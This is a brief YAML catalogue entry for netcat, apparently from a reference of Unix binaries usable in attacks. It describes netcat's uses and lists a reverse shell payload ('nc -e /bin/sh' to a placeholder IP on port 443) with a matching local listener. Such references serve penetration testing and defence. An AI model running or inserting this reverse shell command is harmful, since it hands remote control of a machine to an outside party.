 ```yaml
---
description: |
  The nc (or netcat) utility is used for just about anything under the sun involving TCP or UDP. It can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.
functions:
  shells:
    - description: Reverse shell payload (remote)
      code: nc -e /bin/sh 198.51.100.2 443
    - description: Listener (local)
      code: nc -nlvp 443
---
```

